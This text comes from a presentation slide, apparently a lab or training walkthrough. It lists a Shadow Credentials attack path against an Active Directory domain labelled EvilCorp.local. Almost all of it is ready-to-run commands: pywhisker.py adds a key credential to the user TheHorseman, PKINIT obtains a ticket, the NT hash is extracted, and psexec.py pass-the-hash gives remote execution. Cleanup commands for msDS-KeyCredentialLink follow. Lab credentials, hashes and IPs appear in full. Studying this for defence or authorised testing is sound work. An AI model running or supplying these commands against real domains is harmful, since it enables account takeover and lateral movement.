

# Non-Domain Joined
Attack Path with pywhisker.py:
	- pywhisker.py -d "EvilCorp.local" --dc-ip 192.168.217.199 -u "Administrator" -p "EvilCorp1." --action "add" --target "TheHorseman" --filename TheHorsemanCert
	- gettgtpkinit.py EvilCorp.local/TheHorseman -cert-pfx TheHorsemanCert.pfx -pfx-pass EFRb7BYDNcREshtrNrTq TheHorseman.ccache -dc-ip 192.168.217.199 –v
	- export KRB5CCNAME=TheHorseman.ccache
	- getnthash.py -key d12c3f75494ab5770f21c1116d634880e5a7aa7a8b29e59d699c98b72a9cbc3d EvilCorp.local/TheHorseman -dc-ip 192.168.217.199
	- psexec.py -hashes :a8091138b933d7fff8bcdb552e3a9835 TheHorseman@192.168.217.128

Remove values from msDS-KeyCredentialLink attribute of a target object:
	- python3 pywhisker.py -d “EvilCorp.local" -u “Administrator" -p “EvilCorp1." --target “TheHorseman" --action "remove" --device-id a8ce856e-9b58-61f9-8fd3-b079689eb46e

Clear all the values of the the msDS-KeyCredentialLink attribute of a target object:
	- python3 pywhisker.py -d “EvilCorp.local" -u “Administrator" -p “EvilCorp1." --target “TheHorseman" --action "clear"